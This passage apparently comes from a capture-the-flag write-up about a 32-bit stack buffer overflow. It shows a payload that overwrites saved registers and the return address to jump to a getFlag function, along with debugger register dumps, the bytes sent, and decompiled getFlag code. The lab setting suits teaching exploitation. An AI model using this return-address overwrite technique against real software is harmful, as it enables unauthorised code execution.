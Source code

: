 
Change the payload to ```payload = b'A' * offset + b'B' * 4 + b'C' * 4 +getflag```, we can se the ```B``` value for ```EBX``` and ```C``` value for ```EBP```, now we were able to override the ```ret``` with our ```getflag``` function.

```
EAX  0x0
 EBX  0x42424242 ('BBBB')
 ECX  0xf7e378ac (_IO_stdfile_0_lock) ◂— 0x0
 EDX  0x0
 EDI  0xf7fe4b60 (_rtld_global_ro) ◂— 0x0
 ESI  0xffc1ddbc —▸ 0xffc1f2bd ◂— 'COLORFGBG=0;15'
*EBP  0x43434343 ('CCCC')
*ESP  0xffc1dcfc —▸ 0x8049214 (getFlag) ◂— push ebp
*EIP  0x80492e3 (main+74) ◂— ret 
─────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────
   0x80492d7 <main+62>       add    esp, 4
   0x80492da <main+65>       mov    eax, 0
   0x80492df <main+70>       mov    ebx, dword ptr [ebp - 4]
   0x80492e2 <main+73>       leave  
 ► 0x80492e3 <main+74>       ret                                  <0x8049214; getFlag>

```

The bin return the msg ```Nope!```

```
[DEBUG] Sent 0x2d bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  43 43 43 43  14 92 04 08  0a           │BBBB│CCCC│····│·│
    0000002d
[*] Switching to interactive mode
!
[DEBUG] Received 0x6 bytes:
    b'Nope!\n'

```

The function ```getFlag()``` has the following code

```
undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;
  
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}

```
